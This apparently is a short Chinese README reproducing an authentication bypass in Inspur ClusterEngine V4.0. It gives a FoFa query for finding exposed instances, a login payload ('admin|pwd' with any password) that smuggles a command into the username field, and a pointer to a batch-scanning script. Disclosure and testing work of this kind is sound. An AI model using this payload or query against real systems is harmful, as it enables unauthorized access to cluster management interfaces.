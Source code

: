 # 影响范围：  
已知浪潮ClusterEngineV4.0  
# FoFa fork:  
title="TSCEV4.0"
# 漏洞复现  
访问登录页面：  
https://xxx.xxx.xxx.xxx:8443/module/login/login.html 
  
![image](image/login.png)  
  
使用用户名admin|pwd和任意密码进行登录  
  
![image](image/username.png) 

![image](image/burp.png)

服务器返回结果：  

···
{"err":"","exitcode":0,"out":"/\n"}
···

登陆成功，进入管理界面！！！  

![image](image/frame.png)

# 脚本使用
待检测地址存放在Url.txt中，保存在脚本同目录下。  
python3 any-user-login.py 

![image](image/run.png)





